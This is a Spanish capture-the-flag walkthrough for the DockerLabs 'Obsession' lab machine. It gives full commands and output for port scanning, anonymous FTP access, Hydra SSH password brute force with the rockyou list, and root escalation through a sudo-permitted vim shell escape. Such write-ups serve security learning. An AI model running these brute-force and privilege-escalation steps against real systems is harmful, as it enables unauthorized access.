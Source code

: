 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Obsession".
Una vez hecho , descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh obsession.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 172.17.0.2
```
y vemos que tiene 3 puertos abiertos, el 21 (FTP), el 22 (SSH) y el 80 (HTTP):
```
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
```
Resulta que el puerto 21 (FTP) nos permite entrar como usuario anonimo, y ademas continene 2 archivos, asi que probaremos a entrar por aqui:
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18 03:20 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18 03:21 pendientes.txt
```
Tras haber entrado con el comando "ftp 172.17.0.2" y poner el usuario "anonymous" (sin contraseña), nos descargaremos ambos archivos para trabajarlos en local:
```
get chat-gonza.txt
get pendientes.txt
```
Hecho esto, hacemos un "cat" a ambos para ver si tienen informacion relevante:
```
cat chat-gonza.txt       

[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```

```
cat pendientes.txt

1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!
2 Aumentar el precio de mis asesorías online en la Web!
3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!
4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```
En principio, el segundo no parece darnos informacion muy relevante, sin embargo, el primer archivo, nos proporciona 2 nombres: "gonza" y "russoski".
Es momento de probar la FUERZA BRUTA con ambos usuarios e HYDRA, para ver si podemos obtener las contraseñas de ambos (o al menos, de uno de ellos), por lo que lanzaremos los siguientes comandos:
```
hydra -l gonza -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Con este usuario, no hemos obtenido nada. Probaremos ahora con el otro usuario: "russoski":
```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Y obtenemos en este caso la contraseña:
```
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```
Es momento entonces de acceder al puerto 22 (SSH), con estas credenciales:
```
ssh russoski@172.17.0.2
```
Y tras escribir "yes" en la primera pregunta e introducir la contraseña obtenida con HYDRA cuando nos piden el password, ya estariamos dentro.
```
russoski@05350891ffe2:~$ whoami
russoski
russoski@05350891ffe2:~$
```
Ahora intentaremos hacer una escalada de privilegios. Para ello, como siempre, empezariamos con el comando "sudo -l" y que, en este caso, nos mostraria:
```
russoski@05350891ffe2:~$ sudo -l

Matching Defaults entries for russoski on 05350891ffe2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User russoski may run the following commands on 05350891ffe2:
    (root) NOPASSWD: /usr/bin/vim  <== Intentaremos hacer la escalada con "vim"
    
russoski@05350891ffe2:~$
```
Como se puede observar, tendriamos permisos de "root", sin password, con el binario "vim", por lo que iremos a la pagina de "gtfobins" a buscarlo (o con el comando "searchbins", si lo tuviesemos instalado).
Una vez en GTFObins, buscaremos "vim", y elegiremos el apartado "sudo", lo que nos mostrara lo siguiente:
```
sudo vim -c ':!/bin/sh'
```
En este caso y respetando siempre la RUTA ABSOLUTA, escribiriamos:
```
russoski@05350891ffe2:~$ sudo /usr/bin/vim -c ':!/bin/sh'

# whoami
root
#
```
Tal y como se ve arriba, ya seriamos "root" con permisos. Tambien podriamos escribir: "bash -p" para obtener un "prompt" normal:
```
# bash -p
root@05350891ffe2:/home/russoski# whoami
root
root@05350891ffe2:/home/russoski#
```
Y con esto ya estaria la maquina hecha :)
